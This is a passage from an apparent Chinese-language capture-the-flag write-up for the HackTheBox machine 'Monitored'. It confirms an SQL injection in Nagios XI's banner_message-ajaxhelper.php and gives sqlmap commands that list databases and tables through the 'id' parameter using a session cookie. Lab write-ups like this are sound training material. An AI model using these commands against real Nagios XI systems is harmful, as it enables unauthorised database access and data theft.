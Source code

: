 ![image-20250322185757396](./././././././././././Monitored/image-20250322185757396.png)

sql语句报错了，说明存在sql注入

## sqlmap

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 --dbs
```

![image-20250322203631690](./././././././././././Monitored/image-20250322203631690.png)

```
 sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 -D nagiosxi --tables
```
